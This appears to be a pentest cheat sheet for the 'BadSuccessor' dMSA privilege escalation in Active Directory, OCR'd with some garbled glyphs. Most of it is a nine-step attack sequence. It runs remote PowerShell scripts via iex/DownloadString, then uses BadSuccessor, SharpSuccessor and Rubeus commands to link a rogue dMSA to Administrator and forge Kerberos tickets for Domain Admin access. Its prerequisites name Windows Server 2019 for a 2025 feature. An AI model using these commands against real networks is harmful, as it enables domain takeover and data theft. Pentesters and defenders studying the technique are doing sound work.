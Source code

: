 # Bad Successor dMSA

## Tools: 

https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/112efc20807e14e3c05c2307e3e6816dc4f2b5ef/tools/ActiveDirectory/BadSuccessor.ps1

https://github.com/akamai/BadSuccessor

https://github.com/logangoins/SharpSuccessor

## Prerequisites:

• Windows Server 2019 as Ac􀆟ve Directory that supports PKINIT
• Domain must have Ac􀆟ve Directory Certificate Services and Certificate Authority configured.
• Kali Linux packed with tools
• Tools: Rubeus, sharpsuccessor, badsuccessor module

## Explanation

BadSuccessor is a post-compromise privilege escalation technique that targets a new feature in Windows Server 2025: Delegated Managed Service Accounts (dMSAs). This technique takes advantage of vulnerabilities in the dMSA configuration, allowing attackers to escalate their privileges within Ac􀆟ve Directory environments a􀅌er an initial compromise, potentially gran􀆟ng them higher-level access or control over critical systems.

In essence, it exploits:

• Weak ACLs on Organizational Units (OUs): Attackers with low privileges but write rights on an OU can create or modify dMSAs.

• msDS-DelegatedMSAState and msDS-ManagedAccountPrecededByLink: Attributes that allow linking dMSAs to privileged accounts.

• Kerberos quirks: Rogue dMSAs inherit the security context of the linked privileged account, allowing attackers to obtain TGTs and TGSs as Domain Admins.

This attack is particularly dangerous because it allows an attacker with minimal delegated permissions (like write rights on an Organizational Unit (OU)) to:

• Create a rogue dMSA

• Link it to a privileged account (e.g., Domain Admin)

• Obtain Kerberos 􀆟tickets that inherit the target’s security context

• Pivot to full domain control

Unlike attacks that require password cracking or golden ticket creation, BadSuccessor is stealthy, lives entirely within AD’s supported features, and can often bypass detection systems.

## Enumeration and Exploitation

#### 1) Load BadSuccessor and Check for Vulnerabilities

    iex(new-object net.webclient).DownloadString("https://raw.githubusercontent.com/LuemmelSec/Pentest-Tools-Collection/refs/heads/main/tools/ActiveDirectory/BadSuccessor.ps1") 

    BadSuccessor -mode check -Domain domain.local

#### 2) Audit OU Permissions

    iex(new-object net.webclient).DownloadString("https://raw.githubusercontent.com/akamai/BadSuccessor/refs/heads/main/Get-BadSuccessorOUPermissions.ps1")

#### 3) Create Rogue dMSA and link it to Administrator

    BadSuccessor -mode exploit -Path "OU=HACKME,DC=domain,DC=local" -Name "BAD_DMSA" -DelegateAdmin "USER" -DelegateTarget "Administrator" -domain "domain.local"

#### 4) Test access to sensitive resources 

    dir \\dc.domain.local\c$ (Expected access denied)

#### 5) Finalize dMSA Link with SharpSuccessor

    .\SharpSuccessor.exe add /impersonate:Administrator /path:"ou=HACKME,dc=domain,dc=local" /account:USER /name:BAD_DMSA

#### 6) Request delegation TGT with Rubeus

    .\Rubeus.exe tgtdeleg /nowrap

#### 7) Request TGT as BAD_DMSA

    .\Rubeus.exe asktgt /targetuser:BAD_DMSA$ /service:krbtgt/domain.local /opsec /dmsa /nowrap /ptt /ticket:doIFjdCCX...

#### 8) Request Service Ticket for File Server

    .\Rubeus.exe asktgs /user:BAD_DMSA$ /service:cifs/dc.domain.local /opsec /dmsa /nowrap /ptt /ticket:doIFzDCCBigAw...

#### 9) Confirm Domain Admin access

    dir \\dc.domain.local\c$
